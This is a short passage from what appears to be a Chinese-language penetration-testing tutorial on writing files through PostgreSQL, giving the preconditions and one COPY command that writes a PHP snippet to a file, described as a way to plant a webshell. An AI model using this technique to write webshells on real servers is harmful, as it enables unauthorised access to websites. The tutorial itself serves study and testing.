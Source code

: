 [![10.png](assets/1710208076-67fa327fc6fcc8f7ccaf1e8e13e88a7e.png)](https://storage.tttang.com/media/attachment/2022/04/13/d46455b5-d0ea-493d-bf31-3e438ec5f8da.png)

- - -

# [0x03 PostgreSQL 写文件](#toc_0x03-postgresql)

**利用条件**  
\- 拥有网站路径写入权限  
\- 知道网站绝对路径

**方法 1 COPY**

COPY 命令可以用于表和文件之间交换数据，这里可以用它写 webshell

```bash
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
```

[![1.png](assets/1710208076-dbfdce869c25f81dce8d4ef0edcf6183.png)](https://storage.tttang.com/media/attachment/2022/04/13/b334d46d-5637-4f75-a8eb-46e17927eed3.png)
